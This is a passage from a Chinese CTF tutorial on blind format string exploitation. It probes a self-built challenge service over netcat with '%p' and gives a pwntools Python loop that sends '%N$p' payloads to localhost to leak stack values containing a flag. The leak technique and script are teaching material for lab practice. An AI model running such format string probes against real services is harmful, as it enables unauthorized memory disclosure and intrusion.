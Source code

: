 需要注意的是，这样并不能稳定得到 shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

为什么需要打印这么多呢？因为格式化字符串不在栈上，所以就算我们得到了需要更改的ebp的地址，也没有办法去把这个地址写到栈上，利用$符号去定位他；因为没有办法定位，所以没有办法用l\ll等方式去写这个地址，所以只能打印很多。

## 格式化字符串盲打

### 原理

所谓格式化字符串盲打指的是只给出可交互的 ip 地址与端口，不给出对应的 binary 文件来让我们进行 pwn，其实这个和 BROP 差不多，不过 BROP 利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

- 确定程序的位数
- 确定漏洞位置 
- 利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

### 例子1-泄露栈

源码和部署文件均放在了对应的文件夹 [fmt_blind_stack](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_stack) 中。

#### 确定程序位数

我们随便输入了 %p，程序回显如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

告诉我们 flag 在栈上，同时知道了该程序是 64 位的，而且应该有格式化字符串漏洞。

#### 利用

那我们就一点一点测试看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1

```
